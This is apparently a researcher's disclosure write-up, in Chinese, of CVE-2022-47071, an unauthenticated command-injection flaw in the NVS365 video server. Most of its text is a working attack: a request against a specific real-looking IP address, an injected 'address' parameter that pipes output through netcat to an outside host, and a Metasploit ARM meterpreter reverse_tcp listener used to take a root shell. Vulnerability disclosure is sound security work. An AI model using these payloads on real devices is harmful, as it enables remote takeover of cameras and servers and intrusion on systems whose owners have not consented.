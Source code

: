 # NVS365网络视频服务器后台任意命令执行漏洞(CVE-2022-47071)

# [CVSS:9.8分:点击跳转](https://nvd.nist.gov/vuln/detail/CVE-2022-47071 )


# [该漏洞关联上一份漏洞 《NVS365网络视频服务器密码信息未授权访问漏洞》](https://github.com/Sylon001/NVS-365-Camera/tree/master/NVS365%20Network%20Video%20Server%20Password%20Information%20Unauthorized%20Access%20Vulnerability)

其实也不用关联
后面发现不需要登陆也可以触发命令执行漏洞，只需要请求url和提交data就行

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

漏洞版本：

NVS-365-V01

![](./images/media/image2.png){width="5.764583333333333in"
height="3.66875in"}

该漏洞可任意触发任意命令，获取服务器shell等

[http://188.59.188.232:8085/?jcpcmd=userpasswd%20-act%20list](http://188.59.188.232:8085/?jcpcmd=userpasswd -act list)

![](./images/media/3.jpg){width="5.760416666666667in"
height="0.9388888888888889in"}

在网络管理这块 可直接触发RCE漏洞

![](./images/media/4.jpg){width="5.764583333333333in"
height="2.6305555555555555in"}


触发命令执行命令

Pwd:

result=%09%09&address=\|pwd\|nc ip 端口 &size=16

![lQLPJxSMXaaSNu5bzQVWsJRF7Rolhi8uA4XLQJdAZgA_1366_91](./images/media/9.jpg){width="5.7625in"
height="0.3840277777777778in"}

Uname -a

![](./images/media/10.jpg){width="5.761111111111111in"
height="3.9583333333333335in"}

Id: root权限

![](./images/media/11.jpg){width="5.758333333333334in"
height="2.7375in"}

上传shell，metasploit生成linux ram木马

![](./images/media/12.jpg){width="5.7625in"
height="3.7423611111111112in"}

Msf监听：

msf \> use exploit/multi/handler

msf \> set payload linux/armle/meterpreter/reverse_tcp

msf \> set LHOST xxx.xxx.xxx.xxx

msf \> set PORT 4466

msf \> run

![](./images/media/13.jpg){width="5.763194444444444in"
height="5.479166666666667in"}

进入shell

![](./images/media/image14.png){width="2.8645833333333335in"
height="0.875in"}


## security researcher
name1:   Sylon    

Please contact email: peisylon@foxmail.com 


